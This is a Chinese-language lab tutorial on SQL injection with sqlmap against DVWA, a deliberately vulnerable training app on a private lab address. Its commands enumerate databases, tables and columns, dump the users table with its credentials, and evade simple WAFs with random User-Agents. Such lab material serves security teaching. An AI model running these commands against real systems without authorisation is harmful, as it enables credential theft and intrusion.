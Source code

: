 ## 设置dvwa安全级别为**low**
## 获取有效的Cookie
登录后，使用浏览器开发者工具(F12)查看当前Cookie

或者使用Burp Suite拦截一个请求，获取Cookie值

您需要的Cookie应该包含PHPSESSID和security值
## 使用SQLMap进行测试

---

## **1. 基本注入测试**
```bash
sqlmap -u "http://192.168.214.1/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
       --cookie="PHPSESSID=您的会话ID; security=low" \
       --batch
```

### **参数说明：**
- **`-u` 或 `--url`**：指定目标URL，包含可注入参数（`id=1`）。  
- **`--cookie`**：提供当前会话的Cookie（`PHPSESSID`用于保持登录，`security=low`设置DVWA安全级别）。  
- **`--batch`**：自动选择默认选项，无需交互式确认（适合自动化测试）。  

---

## **2. 获取数据库信息**
```bash
sqlmap -u "http://192.168.214.1/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
       --cookie="PHPSESSID=您的会话ID; security=low" \
       --dbs \
       --batch
```

### **参数说明：**
- **`--dbs`**：枚举目标数据库服务器上的所有数据库名称（如`information_schema`、`dvwa`等）。  
- 其余参数同上（`-u`、`--cookie`、`--batch`）。  

---

## **3. 获取当前数据库名称**
```bash
sqlmap -u "http://192.168.214.1/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
       --cookie="PHPSESSID=您的会话ID; security=low" \
       --current-db \
       --batch
```

### **参数说明：**
- **`--current-db`**：获取当前正在使用的数据库名称（DVWA默认是`dvwa`）。  

---

## **4. 获取数据库表**
```bash
sqlmap -u "http://192.168.214.1/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
       --cookie="PHPSESSID=您的会话ID; security=low" \
       -D dvwa \
       --tables \
       --batch
```

### **参数说明：**
- **`-D dvwa`**：指定要操作的数据库（`dvwa`）。  
- **`--tables`**：枚举该数据库中的所有表（如`users`、`guestbook`）。  

---

## **5. 获取表结构（列名）**
```bash
sqlmap -u "http://192.168.214.1/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
       --cookie="PHPSESSID=您的会话ID; security=low" \
       -D dvwa \
       -T users \
       --columns \
       --batch
```

### **参数说明：**
- **`-T users`**：指定要操作的表（`users`）。  
- **`--columns`**：列出该表的所有列（如`user_id`, `first_name`, `password`）。  

---

## **6. 提取数据（Dump表内容）**
```bash
sqlmap -u "http://192.168.214.1/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
       --cookie="PHPSESSID=您的会话ID; security=low" \
       -D dvwa \
       -T users \
       --dump \
       --batch
```

### **参数说明：**
- **`--dump`**：提取并显示表中的所有数据（如用户名、密码等）。  

---

## **7. 使用POST请求测试（可选）**
```bash
sqlmap -u "http://192.168.214.1/dvwa/vulnerabilities/sqli/" \
       --data="id=1&Submit=Submit" \
       --cookie="PHPSESSID=您的会话ID; security=low" \
       --batch
```

### **参数说明：**
- **`--data="id=1&Submit=Submit"`**：指定POST请求的数据（如果注入点使用POST提交）。  

---

## **8. 使用随机User-Agent（绕过简单WAF）**
```bash
sqlmap -u "http://192.168.214.1/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
       --cookie="PHPSESSID=您的会话ID; security=low" \
       --random-agent \
       --batch
```

### **参数说明：**
- **`--random-agent`**：使用随机的HTTP User-Agent头，避免被WAF检测。  

---

## **9. 使用代理（Burp Suite抓包）**
```bash
sqlmap -u "http://192.168.214.1/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
       --cookie="PHPSESSID=您的会话ID; security=low" \
       --proxy="http://127.0.0.1:8080" \
       --batch
```

### **参数说明：**
- **`--proxy="http://127.0.0.1:8080"`**：通过Burp Suite等代理发送请求，方便分析流量。  

---

## **10. 提高检测级别（更全面测试）**
```bash
sqlmap -u "http://192.168.214.1/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
       --cookie="PHPSESSID=您的会话ID; security=low" \
       --level=3 \
       --risk=3 \
       --batch
```

### **参数说明：**
- **`--level=3`**（1-5）：提高检测深度（测试更多参数，如HTTP头）。  
- **`--risk=3`**（1-3）：提高风险等级（使用更激进的注入技术）。  

---

## **总结**
| 参数 | 作用 |
|------|------|
| `-u` | 指定目标URL |
| `--cookie` | 提供会话Cookie |
| `--batch` | 自动模式（无需交互） |
| `--dbs` | 枚举所有数据库 |
| `--current-db` | 获取当前数据库名 |
| `-D` | 指定数据库 |
| `--tables` | 枚举表 |
| `-T` | 指定表 |
| `--columns` | 获取列名 |
| `--dump` | 提取数据 |
| `--data` | POST请求数据 |
| `--random-agent` | 随机User-Agent |
| `--proxy` | 设置代理 |
| `--level` | 检测深度（1-5） |
| `--risk` | 风险等级（1-3） |
